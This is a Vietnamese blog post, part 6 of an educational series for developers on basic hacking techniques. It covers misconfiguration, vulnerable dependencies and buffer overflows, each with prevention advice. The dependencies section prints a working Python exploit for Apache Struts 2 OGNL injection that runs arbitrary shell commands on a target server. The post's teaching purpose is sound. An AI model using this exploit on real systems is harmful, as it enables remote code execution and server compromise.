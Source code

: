 ## Part 1-5
[Part 1](https://viblo.asia/p/cac-ki-thuat-hack-co-ban-lap-trinh-vien-nen-biet-phan-1-gDVK2BvrKLj) -
[Part 2](https://viblo.asia/p/cac-ki-thuat-hack-co-ban-lap-trinh-vien-nen-biet-phan-2-4dbZN92gKYM) - 
[Part 3](https://viblo.asia/p/cac-ki-thuat-hack-co-ban-lap-trinh-vien-nen-biet-phan-3-bWrZnWQ9lxw) - 
[Part 4](https://viblo.asia/p/cac-ki-thuat-hack-co-ban-lap-trinh-vien-nen-biet-phan-4-GrLZDJon5k0) - 
[Part 5](https://viblo.asia/p/cac-ki-thuat-hack-co-ban-lap-trinh-vien-nen-biet-phan-5-Qbq5Qa7w5D8)
## Part 6
### Lax security settings
Đã đọc đến phần này của series thì chắc mọi người cũng không lạ gì với việc dùng google để hack. Với các từ khoá như `intitle:`, `intext:`, hay `inurl:`,... hacker tìm kiếm các chương trình bị cấu hình lỏng lẻo. Như các database, phần mềm quản lý, hay camera,... đăng nhập với tài khoản mặc định.

Các thư mục bảo không được bảo mật trên máy chủ,
![](https://images.viblo.asia/1010bb4f-a1a2-444c-b381-331abb2bf2a2.png)

hay những sản phẩm quên tắt chức năng debug, hoặc vẫn để môi trường thử nghiệm cũng là đối tượng bị ngắm đến
![](https://images.viblo.asia/3884abbc-338c-4b67-86f8-11e5e9b03a11.png)

Và tất nhiên, web admin cũng là một phần thường xuyên bị nhắm đến
 ![](https://images.viblo.asia/80cb336c-a089-420b-a08d-60b64250a075.png)

#### Phòng chống
##### 1. Tự động hoá quá trình Build để tránh việc sơ xuất khi quên này quên kia mỗi khi thực hiện
##### 2. Xem lại các thành phần phần mềm mới và vô hiệu hóa thông tin đăng nhập mặc định càng sớm càng tốt
##### 3. Tách biệt phần code và phần cài đặt cấu hình
##### 4. Tạo tài khoản chuyên dụng với các đặc quyền thích hợp
##### 5. Viết kịch bản cho quá trình triển khai của bạn
##### 6. Tách biệt các môi trường develop, test, product,...
##### 6. Thêm bảo mật bổ sung cho hệ thống quản trị


### Toxic dependencies
Là trường hợp các parkage ngoài chứa mã độc hoặc chính bản thân các phần mềm, framework chứa những lỗ hổng bảo mật chưa được phát hiện dẫn đến rủi ro cho sản phẩm.

Có thể kể đến một vài trường hợp (nguồn: hacksplaining.com)
+ Apache struts, phiên bản 2 của nó đã không "làm sạch" Content-Type đúng cách, đến đến việc hacker có thể đẩy vào đó các đoạn script nhỏ và thực thi trên server
```python
import urllib2
import httplib

def exploit(url, cmd):
  payload = "%{(#_='multipart/form-data')."
  payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
  payload += "(#_memberAccess?"
  payload += "(#_memberAccess=#dm):"
  payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
  payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
  payload += "(#ognlUtil.getExcludedPackageNames().clear())."
  payload += "(#ognlUtil.getExcludedClasses().clear())."
  payload += "(#context.setMemberAccess(#dm))))."
  payload += "(#cmd='%s')." % cmd
  payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
  payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
  payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
  payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
  payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
  payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
  payload += "(#ros.flush())}"

  try:
    headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
    request = urllib2.Request(url, headers=headers)
    page = urllib2.urlopen(request).read()
  except httplib.IncompleteRead, e:
    page = e.partial

  return page
  ```
  
  + Ruby on Rails, phiển bản 3.0 có một lỗi liên quan đến việc gán dữ liệu tuỳ ý, nghĩa là có thể tạo một request để ghi đè  trạng thái bảo vệ, rất may, nó được 1 hacker mũ trắng phát hiện
```ruby
def assign_attributes(new_attributes)
    if !new_attributes.respond_to?(:stringify_keys)
        raise ArgumentError, "When assigning attributes, you must pass a hash as an argument."
    end
    return if new_attributes.blank?

    attributes                  = new_attributes.stringify_keys
    multi_parameter_attributes  = []
    nested_parameter_attributes = []

    attributes = sanitize_for_mass_assignment(attributes)

    attributes.each do |k, v|
        if k.include?("(")
            multi_parameter_attributes << [ k, v ]
        elsif v.is_a?(Hash)
            nested_parameter_attributes << [ k, v ]
        else
            _assign_attribute(k, v)
        end
    end

    assign_nested_parameter_attributes(nested_parameter_attributes) unless nested_parameter_attributes.empty?
    assign_multiparameter_attributes(multi_parameter_attributes) unless multi_parameter_attributes.empty?
end
```

#### Phòng chống
##### 1. Automate your build and deployment processes
##### 2. Deploy known-good versions of software
##### 3. Be careful of private dependencies
##### 4. Dùng tool chuyên dụng để đánh giá nguy cơ bảo mật
##### 5. Luôn cập nhập các bản bảo mật
##### 6. Review code định kỳ
##### 7. Make penetration testing part of your development lifecycle

### Buffer overflows - tràn bộ đệm
Khi dữ liệu đầu vào có độ dài vượt ra ngoài biên của bộ nhớ đệm có độ dài cố định, nó sẽ ghi đè lên các bộ nhớ đệm liền kề, Dữ liệu bị ghi đè có thể bao gồm các bộ nhớ đệm khác, các biến và dữ liệu điều khiển luồng chảy của cả chương trình. Lỗi này thường xảy ra với các ngôn ngữ như C hoặc C++ khi mà việc xử lý bộ nhớ đệm phải thực hiện thủ công.

Hacker có thể lợi dụng lỗi này, đẩy lên một lượng lớn dữ liệu cùng lúc gây trèo server, tương tự như tấn công DDoS, hoặc chèn các đoạn mã độc vào phần ghi dữ liệu bị tràn, qua đó thực hiện các thủ thuật tấn công khác

![](https://images.viblo.asia/62a999d8-7655-4e65-9607-912ec739df0d.PNG)

Cách khai thác chia thành 2 loại chính khai thác lỗi tràn trên stack và Khai thác lỗi tràn trên heap, ngoài ra còn một số cách khác, chúng đều hướng đến việc thay đổi hành vi chương trình tạo thuận lợi cho hacker

## Lời kết
Cuối cùng thì sau một thời gian dài, tôi cũng hoàn thành được series đầu tiên về bảo mật, dù chỉ là nhưng là bản tóm tắt cơ bản, tổng hợp, nhưng bản thân tôi cũng có chút tự hào. Dự kiến *hôm nào đó* có thể tôi sẽ là viết kĩ hơn về từng loại, sẽ vẫn là lần mò, viết bậy thôi, nhưng vẫn mong mọi người sẽ ủng hộ.

*Nguồn:* 
+ https://www.hacksplaining.com/
+ https://viblo.asia/
+ internet